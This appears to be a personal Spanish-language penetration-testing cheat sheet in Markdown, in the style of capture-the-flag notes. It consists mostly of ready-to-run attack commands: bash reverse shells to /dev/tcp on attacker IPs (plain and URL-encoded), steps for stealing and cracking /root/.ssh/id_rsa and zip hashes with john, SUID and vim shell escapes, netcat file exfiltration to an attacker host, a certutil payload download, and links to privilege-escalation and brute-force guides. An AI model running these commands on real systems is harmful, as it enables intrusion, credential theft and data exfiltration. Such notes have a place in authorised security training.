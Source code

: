 ## Para analizar páginas web que estén creadas con wordpress podemos realizar estos dos comandos:

```
wpscan –url http://ip
```
## Y en caso de que no veamos nada vulnerable, podemos probar a buscar posibles plugins vulnerables:

```
wpscan --plugins-version-detection aggressive --url http://192.168.0.5/wordpress
```

## Opciones para crear una shell inversa:

[revshell](https://www.revshells.com/)

```
 “/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'”

bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.16.37%2F9999%200%3E%261%27
 ```
 ## En caso de querer codificarla en url, podemos realizar el siguiente comando:
 ```
urlencode "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'"
```

## Sacar hashes de ficheros zip:
```
zip2john muyconfidencial.zip > hash_muyconfidencial
```
## Para tener una mejor consola interactiva una vez hemos realizado nc -lvp 1234
```
SHELL=/bin/bash script -q /dev/null
Hacemos control +z
stty raw -echo && fg
escribimos reset
xterm
export TERM=xterm
```
(un máquina atacante usamos stty size para saber el tamaño de la terminal)
En la vicitma ejecutamos
```
stty rows x columns y
```
## Página donde ver como escalar privilegios con los binarios (sudo -l ):
[gtfobins](https://gtfobins.github.io/gtfobins/aws/#sudo)

## Visualizar todos los ficheros ordenados por directorios para ver los permisos:
```
ls -la /* | less
```
## Página donde se ven diferentes tipos de ataque:
[deephacking](https://deephacking.tech/)

## Ejemplo de uso para escalar priv con rutas absolutas:
```
sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py
```
> **Nota:** pspy - Script que permite visualizar todos los procesos que se están ejecutando en el sistema sin ser root.

## Escalar priv por medio de SUID
Dar privilegios p.j 
/bin/bash u+s o (4777) 
Ejecutar el comando del ejemplo
bash -p 
> **Nota:** (la opción -p en bash (preserve privileges) le dice a Bash que mantenga los permisos de usuario efectivo). 

## Ejemplo de Búsqueda de Archivos SUID:
```
find / -perm -4000 -type f 2>/dev/null (para buscar ficheros) 
find / -perm -4000 2>/dev/null (para buscar directorios).
```
## Otro ejemplo pero con un editor como puede ser vim:
```
vim -c una vez dentro ejecutar: ':!/bin/sh'
```

## En algún supuesto caso de que tengamos posibilidad de ver ficheros como root sin serlo y necesitemos escalar a root, una de las posibilidades es entrar en:

> **Nota:** /root/.ssh/id_rsa y copiar la clave a nuestra máquina atacante para posteriormente hashear esa clave e intentar sacar la contraseña por el hash.
```
ssh2john ficherodondeguardamoslakey > salidaficherohasheado

john ficherohasheado –wordlist /usr/share/wordlist/rockyou
```
Para terminar, una vez obtengamos la contraseña nos podemos conectar desde la atacante usando el fichero con la clave privada
```
sudo ssh root@ip -i ficheroconlakey
```
Enviar ficheros por netcat (Victima)
```
nc -q 0 192.168.16.37 9999 < BurgerWithoutCheese.zip (atacante) nc -nvlp 9999 > BurgerWithoutCheese.zip
```

## Enviar el Archivo como Base64

```
base64 archivo.txt
base64 -d archivo_codificado.txt > archivo_recibido.txt
```

## Ver capacidades/capabilities/división de privilegios

```
getcap -r /
```

## Compartir ficheros con máquinas Windows:
```
certutil -urlcache -split -f http://192.168.200.3/winPEASx64.exe C:\Users\hacker\Documents\winpeas.exe
```


## Página donde ver ataque de fuerza bruta con hydra a diferentes tipos de login:
[Hydra Brute Force Login Attacks](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms)

## Escalada de privilegios mediante lxc
[HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
[Juggernaut](https://juggernaut-sec.com/lxd-container/)

